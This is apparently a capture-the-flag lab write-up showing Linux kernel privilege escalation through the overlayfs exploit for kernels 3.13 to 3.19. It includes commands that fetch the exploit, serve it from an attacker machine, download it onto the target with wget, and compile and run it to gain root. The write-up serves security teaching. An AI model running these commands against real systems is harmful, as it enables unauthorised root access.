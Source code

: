 # Kernel Exploits

**Step 1: SSH Login to the Target Machine**

First, SSH into the target machine.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2: Check the Kernel Version**

Since we already know this is a kernel privilege escalation exploit, let's check the kernel version running on our target machine using the following command:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Search for Exploits**

Now that we have the kernel version, we can search in well-known exploit databases, such as [Exploit Database](https://www.exploit-db.com/).

Searching for `Linux 3.13.0` yields the following results:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Exploit Found**: I found an exploit for the Linux Kernel versions `3.13.0` to `< 3.19` (specifically for Ubuntu 12.04, 14.04, 14.10, and 15.04) related to 'overlayfs' Local Privilege Escalation.

**Step 4: Review the Exploit Details**

When we open this exploit, we can see the details and some instructions on how to use it.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 5: Download the Exploit**

To make this exploit work, we need to download the raw content to the attack machine and then transfer it to the vulnerable machine. Choose a directory of your preference and use the `wget` command to download the exploit. For example:

```bash
wget https://www.exploit-db.com/raw/37292
```

**Step 6: Rename the File and Start the HTTP Server**

Next, rename the downloaded file to `ofs.c`, and start a simple HTTP server to transfer the file to the vulnerable machine:

```bash
python -m SimpleHTTPServer 8000
```

**Step 7: Download the Exploit on the Vulnerable Machine**

On the vulnerable machine, we must choose the `/tmp` directory for the download; otherwise, we will encounter a "Permission denied" message. Use the following command:

```bash
wget -O /tmp/ofs.c http://<attack_machine_IP>:8000/ofs.c
```

#### Breakdown of the Command

* **`wget`**: This is the command-line utility used for downloading files from the web.
* **`-O /tmp/ofs.c`**: The `-O` option specifies the output file name and path. In this case, it tells `wget` to save the downloaded file as `ofs.c` in the `/tmp` directory. The `/tmp` directory is often used for temporary files and is typically writable by all users.
* **`http://<attack_machine_IP>:8000/ofs.c`**: This is the URL from which you are downloading the file. It points to the file `ofs.c` being served by an HTTP server running on the machine with the IP address `10.10.242.118` on port `8000`.

**Step 8: Compile and Run the Exploit**

Now, navigate to the `/tmp` directory and follow the instructions presented in the exploit. Compile the file and then run it:

```bash
gcc ofs.c -o ofs
./ofs
```

**Step 9: Verify Privilege Escalation**

After running the exploit, we can verify our privileges. Running the `id` command again shows that we are now 'root'. We can also use the `whoami` command to confirm this:

```bash
id
whoami
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 10: Access the Flag**

To retrieve the flag, navigate to the `/home/matt` directory and use `cat` to view the contents of the file:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we had tried to use `cat flag1.txt` before the exploit, we would have received a "Permission denied" message.

With this write-up, we demonstrated the impact of having an outdated system. Having access to a user's credentials allowed us to leverage that privilege to gain access to the root account. This exercise highlights the importance of keeping systems updated and patched against known vulnerabilities, as well as the potential risks associated with running outdated software.
